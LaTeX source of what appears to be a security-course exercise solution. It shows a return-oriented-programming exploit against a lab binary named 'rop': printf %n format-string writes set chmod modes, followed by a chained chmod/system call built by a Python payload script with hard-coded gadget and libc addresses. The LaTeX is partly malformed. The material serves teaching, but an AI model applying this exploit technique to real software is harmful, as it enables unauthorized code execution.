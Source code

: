 \documentclass[a4paper,11pt]{article}
\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-1ex}\begin{framed}}%
{\end{framed}\par}
\begin{document}
\begin{itemize}
\begin{drawstack}[scale=0.8]
		  \startframe
		    
		  \startframe
	  \end{drawstack}
  \begin{solution}
	  We can't set the two mode\_t chmod arguments right at the start, because they contain some NULL bytes. So we just fill them with "aaaa"s, and call two \t{printf()} functions to write in them (exactly in their address on the stack) \t{0x180} and \t{0x1c0}. So, the final function call order is:
	  \begin{itemize}
		  \item \texttt{printf("\%1\$384x\%n", arg\_a)}
		  \item \texttt{printf("\%1\$448x\%n", arg\_b)}
		  \item \texttt{chmod("./somefile.sh", arg\_a)}
		  \item \texttt{system("./somefile.sh")}
		  \item \texttt{chmod("./somefile.sh", arg\_b)}
	  \end{itemize}
\end{solution}
  \fi

  \item What is the final exploit string that you used to accomplish this task?
  (The final exploit should not use gdb.)

  \ifsolution
  \begin{solution}
	  The final exploit was obtained by running this python script and using the result as argument to the \t{rop} binary:
	  \begin{lstlisting}

print_address="\xa0\x83\x04\x08"
one_pop="\x8d\x83\x04\x08"
two_pop="\xfa\x86\x04\x08"
obj_helpstr="\x38\xa0\x04\x08"
obj_test="\x30\xa0\x04\x08"
print_test_address="\x36\x85\x04\x08"
exit_address="\xd0\xd3\xe0\xb7"
system_address="\xfc\xa1\xe1\xb7"
panico_address="\xfc\xa1\xe1\xb7"
bin_sh_address="\xcf\xb0\xf5\xb7"
address_a="\x68\xee\xff\xbf"
address_b="\x84\xee\xff\xbf"
env_variable_a="\xdc\xff\xff\xbf"
env_variable_b="\xec\xff\xff\xbf"
chmod_address="\xd0\x35\xec\xb7"
print('a'*20 + print_address + two_pop + env_variable_a + address_a + print_address + two_pop + obj_helpstr + address_b +
    chmod_address + two_pop + env_variable_b + 'a'*4 +
    system_address + one_pop + env_variable_b + 
    chmod_address + two_pop + env_variable_b + 'a'*4 + exit_address)               


\end{lstlisting}
\end{solution}
\end{itemize}
\end{document}
